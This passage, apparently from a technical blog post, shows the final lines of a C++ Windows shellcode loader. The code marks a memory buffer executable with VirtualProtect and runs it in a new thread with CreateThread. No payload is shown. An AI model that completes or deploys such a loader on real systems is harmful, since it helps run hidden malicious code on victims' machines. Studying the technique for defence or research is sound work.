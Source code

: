 ```cpp
    rx = VirtualProtect(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect);

    if ( rx != 0 ) {
        thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
        WaitForSingleObject(thread, -1);
    }

    return 0;
}
```

![](/img/posts/Pasted%20image%2020240724070902.png)
